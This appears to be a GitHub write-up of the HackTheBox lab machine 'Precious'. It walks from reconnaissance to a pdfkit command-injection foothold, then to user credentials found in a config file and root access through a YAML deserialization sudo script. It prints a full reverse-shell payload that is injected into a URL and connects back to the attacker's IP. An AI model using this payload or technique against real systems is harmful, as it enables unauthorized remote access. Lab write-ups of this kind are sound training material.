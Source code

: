 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226735722-c099909e-f7c7-4d18-a68b-b9c45b85dc47.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well.  I first checked to see if their was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command searchsploit and as well searched online to double check that the results searchsploit was returning was accurate.  

After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file to actually access the website.   



The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running Gobuster to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.   

After messing with the input box, I opened BurpSuite to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a “Cannot load remote URL” message. Thus, I began to start my own python webserver on my localhost. Python3 -m http.server 80 

After doing so it had converted the webserver, I had spun up to a pdf file.  

I used exiftool to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the application that was converting the URL to PDF. 


I used the searchsploit command again here to see if there was anything it would find for ‘pdfkit v0.8.6’. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the given application. Then found that it was vulnerable to command injection a type of injection vulnerability.     

Reading more of the vulnerability and what we can start to do to exploit it this is what I found. “An application could be vulnerable if it tries to render a URL that contains query string parameters with user input”. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  
After grabbing a reverse shell command, I inserted it as a string within the URL http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}. Thus, getting me in as the user “Ruby” within the webserver.  

Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything. I then used ls -la to find something I don’t see usually which was a directory called ‘.bundle’ which I then found a config file consisting of another user’s password.  

I began to login as the user henry with the given password. Successfully getting us in. I first checked henrys home directory to check for any flags shown there. Then giving us our first flag.  

To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to “Yaml Deserialization Attack” allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute.
 

After running ‘sudo /usr/bin/ruby /opt/update_dependencies.rb’ we can now go and run ‘/bin/bash -p’ to see if get into root as the user.
  

Thus, going into roots home folder to retrieve the root flag of the machine.  
